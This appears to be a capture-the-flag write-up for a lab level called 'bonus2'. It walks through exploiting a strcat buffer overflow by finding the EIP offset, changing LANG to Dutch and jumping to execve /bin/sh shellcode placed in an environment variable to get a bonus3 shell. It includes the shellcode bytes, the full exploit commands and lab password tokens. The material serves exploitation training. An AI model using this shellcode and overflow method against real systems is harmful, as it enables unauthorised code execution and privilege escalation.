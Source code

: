 # Bonus2 - strcat overflow

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus2 | `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245` |
| bonus3 | `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus2

~/bonus2 a

~/bonus2 a b
Hello a
```

The binary takes 2 arguments

```shell
(gdb) info functions
0x08048484  greetuser
0x08048529  main
```

See our assembly interpretation in [source file](../source.c)

The usage is: `~/bonus0 username_part1 username_part2`

The program displays "Hello + `username`" to a username in different languages considering an environment variable "LANG".

The problem is `strcat` that concatenates two strings inside a buffer not big enough.

If `username_part1` has a length greater than `0x12`, the final username will concatenate `username_part1` and `username_part2`

```shell
./bonus2 `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)

./bonus2 `python -c "print 'A' * 0x27"` `python -c "print 'A' * 0x20"`
./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

If `username_part1` and `username_part2` are fully filled (72 chars), the program segfaults because `greetings`-buffer can not contains the username and "Hello " string.

We need to find the offset to override EIP register.

```shell
gdb-peda$ run `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  Invalid $PC address: 0x8004141
  Stopped reason: SIGSEGV
  0x08004141 in ?? ()
```

It override a part (2 bytes) of EIP register.

```shell
"Hello " + "A" * 0x28 + "B" * 0x20
    6    +     40   +    32    = 78 - 2 (bytes already overrided) = 76
=> offset at 76
```

We have to put a shellcode address at the index 76.

As `username_part1` and `username_part2` can not exceed 40 and 32 bytes, we need to change to language. "Hello" is longer in finnish or dutch.

In dutch, "hello" is "Goedemiddag! " and has a length of 13.

```shell
"Goedemiddag! " + `username_part1` + `username_part2` + `SHELLCODE_ADDRESS`
      13        +        40        +        23        +          4         = 80
```

Lets set environment variables, build the exploit and get the pass

```shell
export LANG="nl"

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv SHELLCODE ~/bonus2
0xbffff780

~/bonus2 `python -c 'print "A" * 40'` `python -c 'print "B" * 23 + "\x80\xf7\xff\xbf"'`
  Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
  bonus3
$ cat /home/user/bonus3/.pass
  71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man getenv](https://linux.die.net/man/3/getenv)
- [Man memcmp](https://linux.die.net/man/3/memcmp)
- [Man memcpy](https://linux.die.net/man/3/memcpy)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcat](https://linux.die.net/man/3/strcat)
- [Man strncpy](https://linux.die.net/man/3/strncpy)

```

```
